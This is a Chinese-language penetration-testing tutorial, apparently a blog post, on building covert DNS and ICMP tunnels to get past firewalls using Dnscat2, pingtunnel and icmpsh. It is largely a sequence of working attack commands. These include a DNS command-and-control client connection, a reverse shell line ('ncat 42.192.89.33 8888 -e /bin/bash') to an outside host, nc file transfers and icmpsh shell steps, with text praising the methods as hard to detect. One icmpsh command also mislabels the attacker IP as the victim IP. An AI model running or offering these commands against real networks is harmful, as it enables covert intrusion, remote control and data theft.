

前言
什么是隧道？
在实际的网络中，通常会通过各种边界设备、软/硬件防火墙甚至入侵检测系统来检查对外连接情况，如果发现异样，就会对通信进行阻断.那么什么是隧道呢？这里的隧道，就是一种绕过端口屏蔽的通信方式.防火墙两端的数据包通过防火墙所允许的数据包类型或端口进行封装，然后穿过防火墙，与对方进行通信.当封装的数据包到达目的地时，将数据包还原，并将还原后的数据包发送到相应服务器上.
隧道分类
- 网络层：IPV6隧道、ICMP隧道
- 传输层：TCP隧道、UDP隧道、常规端口转发
- 应用层：SSH隧道、HTTP/S隧道、DNS隧道
隧道连通判断
在架设隧道前，在条件允许的情况下，最好先进行内网相关协议连通性的判定，由此来确认搭建哪种隧道，各类隧道的协议连通性判定方法如下.
- TCP协议
- 使用瑞士军刀——netcat，命令执行 nc ip/域名 port 来判定.
- HTTP协议
- 使用curl命令，执行 curl IP:端口 ，若远程主机开启了相应的端口，且内网可连接外网的话，就会输出相应的端口信息.
- CIMP协议
- 使用ping命令，执行 ping ip/域名 .
- DNS协议
- 检测DNS连通性常用的命令为 nslookup 和 dig ，用 nslookup IP 或 dig IP 来判定.
常用隐匿性隧道搭建
DNS隧道
常用工具有 Dns2tcp ， iodine ， Dnscat2 ， OzymanDNS 等等，这里以 Dnscat2 为例示范。
介绍
Dnscat2定位是一个封装在DNS协议中加密的命令与控制（C&C）信道。使用C/S架构，Client位于感染主机，而Server位于权威域名服务器上，若没有权威域名服务器，则可以采用直连模式。
其项目地址为 https://github.com/iagox86/dnscat2 。
部署
项目拉取到本地 git clone https://github.com/iagox86/dnscat2.git
接下来安装依赖，进入程序 server 目录，执行以下命令来安装Dnscat2的主要依赖。
1 | sudo gem install bundler |
依赖安装完毕后，使用 sudo ruby dnscat2.rb 来启动服务端，启动后，Dnscat2会生成一个随机字符串 secret 来防范中间人攻击，同时该参数也可自己进行设置。

服务端启动后，根据成功启动后提供的命令行，来启动客户端。
客户端进入 Dnscat2 的 Client 目录，Windows下使用VS进行编译，Linux下使用 make 进行编译即可。
执行服务端展示的命令，将IP替换为服务端IP运行即可，即在client目录运行./dnscat --dns server=your-vps-ip,port=53 --secret=7e4b723bda4182ca12497ef1d2426b1f
连接成功后，服务端执行以下命令来获取客户端机器shell.
1 | dnscat2> session -i 1 |
总结
即使是在限制非常严格的情况下，DNS流量也应该是允许放行的.我们就可以利用DNS隧道技术在目标主机和我们的C&C服务器之间建立连接.命令和信息都包含在DNS查询和识别中，这也是很难检测的原因，即使任意命令就隐藏在非常显眼的地方，但是它们被认为是合法的流量，也很难检测出来.Dnscat2也正是利用了这一点才成为了一个非常不错的攻击工具.
ICMP隧道
使用场景
两台机器间，除了允许 icmp 通信（单向或互相 ping），其他的 tcp/udp 端口一律不允许，此时我们就可考虑利用 icmp 隧道进行穿透.
使用icmp隧道可以轻松穿透 tcp/udp 四层封锁，实现icmp的一些工具如下：
- icmpsh
- PingTunnel
- icmptunnel
- powershell icmp
以上工具适用于不同的场景，需要根据不同的网络环境进行选择使用。
icmp单向出网
此场景下，靶机仅仅可以icmp进行出网，即单向ping，这种情况使用 pingtunnel 来搭建icmp隧道。
由于靶机和attack机器， 靶机可以ping attack机器，attack机器无法ping通靶机 ，所以此场景下attack机器作为隧道的 server 端，等待连接。靶机作为 icmp 的 client 端，主动连接 attack 机器。
attack机器开启ICMP服务端:
1 | sudo wget https://github.com/esrrhs/pingtunnel/releases/download/2.6/pingtunnel_linux_amd64.zip |
靶机开启ICMP客户端:
1 | sudo ./pingtunnel -type client -l :4455 -s 42.192.89.33 -t 42.192.89.33:8888 -tcp 1 -key 457864 |
由此，icmp隧道搭建成功。
使用上，可以使用nc进行双方的通信，例如文件传输，attack 机器上在本地8888端口开启nc服务，传输文件，等待连接。
1 | busybox nc -lp 8888 < demo.txt # busybox nc -lp 8888 > demo.txt 反向接收 |
靶机使用nc监听本地4455端口，接收文件。
1 | nc -nv 127.0.0.1 4455 > demo.txt # nc -nv 127.0.0.1 4455 < demo.txt 反向发送 |
传输bash
server端执行
1 | sudo ./pingtunnel -type server -key 457864 |
nc执行
1 | nc -lvp 8888 |
client端执行
1 | sudo ./pingtunnel -type client -l :8888 -s 42.192.89.33 -t 42.192.89.33:8888 -tcp 1 -key 457864 |
nc执行
1 | ncat 42.192.89.33 8888 -e /bin/bash |
icmp双向通信
此场景下，靶机与攻击机器可以正常相互进行icmp（ping）通信，也就是可以icmp出网，此时可进行icmp隧道搭建进行下一步攻击。
使用工具: icmpsh
其详细参数如下：
- -t host主机IP地址，用于向其发送ping请求（该选项为强制性的）
- -r 发送包含字符串“ Test1234”的单个测试icmp请求，然后退出（用于测试连接）
- -d 毫秒请求之间的延迟（以毫秒为单位）
- -o 毫秒响应超时（以毫秒为单位）
- -b 空格数限制（退出前未答复的icmp请求）
- -s 字节最大数据缓冲区大小（以字节为单位）
工具部署
icmpsh 工具使用简单，是一个跨平台工具，控制端可以使用python、pl等脚本调用，被控端由一个win32的exe启动，由此该程序只可以在windows上进行调用，且被控端运行不需要管理员权限。
1 | git clone https://github.com/bdamele/icmpsh.git |
若运行报错，更新下APT库就可以了。
1 | sudo apt-get update |
若python2需要安装pip，运行以下命令。
1 | sudo apt install wget python-is-python2 # 安装wget和python2 |
若还是不行，就使用pip安装。
1 | pip install impacket |
因为icmpsh工具需要替代系统本身的ping命令的应答程序，所以需要关闭本地系统的icmp答应，否则shell的运行可能不稳定，使用以下命令关闭
1 | sysctl -w net.ipv4.icmp_echo_ignore_all=1 |
部署完毕后，靶机运行exe受控文件 (靶机IP: 172.16.184.4 , 攻击机IP: 172.16.184.8 )
1 | ./icmpsh.exe -t 172.16.184.8(攻击机IP) |
攻击机运行命令进行反弹靶机shell
1 | python icmpsh.py 172.16.184.8(攻击机IP) 172.16.184.8(靶机IP) |